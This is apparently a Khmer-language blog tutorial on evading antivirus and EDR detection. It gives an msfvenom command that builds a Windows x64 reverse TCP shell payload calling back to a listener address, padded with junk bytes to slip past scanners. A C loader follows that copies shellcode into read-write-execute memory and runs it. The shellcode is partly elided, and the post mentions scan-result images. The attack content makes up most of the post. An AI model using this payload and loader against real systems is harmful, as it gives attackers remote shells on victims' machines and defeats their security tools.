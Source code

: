 ```yaml
---
title: "Evading AV/EDR with Junk Bytes"
date: 2023-06-27T21:01:06+07:00
description: វិធីសាស្ត្រ Evading AV/EDR ដោយប្រើប្រាស់ Junk Bytes
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- c-shellcode
- metasploit
categories:
- Evading
series:
- WinExE
image: images/feature3/terminal.gif
---
```


ខ្លះៗអំពីការ Bypass AV/EDR តាមរយៈ Msfvenom ។

#### Generate Payload

ខាងក្រោមជាដំណើរការបង្កើត Payload ដោយប្រើប្រាស់ Shellcode ជាភាសារ C គោលដៅលើម៉ាស៊ីន 64 bit និងបានថែមនូវពាក្យបញ្ជា -n ក្នុងន័យបង្កើតចំនួន Bytes ដែលមិនបានការដើម្បីព្យាយាមបង្វៀងពីការចាប់របស់ AV ។

{{< highlight bash "linenos=table" >}}
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.60.136 lport=4433 -f c -n 10000
{{< / highlight >}}

<b>ចំណាំ៖</b> ក្រោយ -n យើងអាចដាក់ចំនួនលេខកាន់តែច្រើនគឺមានលទ្ធភាពក្នុងការ Bypass បានកាន់តែច្រើន ។

បន្ទាប់មកយើងនឹង Compile Payload ធម្មតាដោយប្រើប្រាស់វិធីសាស្ត្រ Process Injection តាមបែប Slef-Injection ដោយផ្ដល់សិទ្ធតាមលំនាំដើម Read, Write និង Execute ។

{{< highlight cpp "linenos=table" >}}
#include <stdio.h>
#include <Windows.h>

int main()
{
    unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
		"\x52\x51\x56\x48\x31\xd2\[.....]\x8b\x52\x60\x48\x8b\x52"
		"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}
{{< / highlight >}}

#### Scan Result

ខាងក្រោមជាលទ្ធផលពីការដាក់ចំនួន 1000 Bytes ។

![Scan Result 1](/en/posts/img/2023/06/junk-bytes-bypass/scan-result-1.png)

ខាងក្រោមជាលទ្ធផលពីការដាក់ចំនួន 10000* Bytes ៕

![Scan Result 2](/en/posts/img/2023/06/junk-bytes-bypass/scan-result-2.png)